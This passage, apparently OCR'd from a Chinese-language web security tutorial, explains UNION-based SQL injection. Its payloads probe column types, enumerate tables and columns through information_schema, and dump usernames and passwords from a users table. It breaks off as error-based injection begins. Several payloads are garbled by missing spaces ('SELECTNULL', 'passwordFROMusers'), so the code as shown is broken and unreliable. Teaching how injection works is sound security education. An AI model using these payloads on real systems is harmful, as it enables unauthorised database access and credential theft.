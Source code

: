 4.2 查找兼容的数据类型  
  
接下来，验证哪些列接受字符串而不是数字：  
  

```
' UNION SELECTNULL, NULL-- # if two columns
' UNION SELECT 'a', 1 -- # test string-integer mix
```

  
  
使用NULL会绕过严格的类型要求，而混合字面量则会测试每列的兼容性。此方法可确保后续数据检索查询不会因类型不匹配而失败。  
  
4.3 提取数据  
  
对齐后，添加您自己的SELECT：  
  

```
?id=1' UNION SELECTid, username, passwordFROMusers--
```

  
  
此有效载荷的工作原理是将合法查询结果与从users表中提取的攻击者控制的数据合并。选择id, username, password与凭证收集的常见兴趣列一致。  
  
5.检查数据库（信息模式）  
  
当表/列名未知时，SQLi 攻击者会利用元数据表：  
  
5.1 枚举表  
  

```
?id=1' UNION SELECTNULL, table_name FROM information_schema.tables--
```

  
  
检索所有表的列表。我们之所以选择information_schema.tables它，是因为它在 SQL 数据库中得到广泛支持。  
  
5.2 枚举列  
  

```
?id=1' UNION SELECTNULL, column_name FROM information_schema.columns WHERE table_name='users'--
```

  
  
筛选表中的列users。这种有针对性的方法避免了过多的输出，并加快了枚举速度。  
  
5.3 转储特定列  
  

```
?id=1' UNION SELECTNULL, CONCAT(username, ':', password) FROMusers--
```

  
  
用分隔符连接用户名和密码。我们选择CONCATand:是为了便于阅读和解析结果。  
  
6.基于错误的SQL注入  
  
当应用程序显示原始数据库错误时，您可以通过触发不同类型的错误来强制错误直接泄露数据。以下是多个有效载荷及其用途：  
  
6.1 转换错误  
  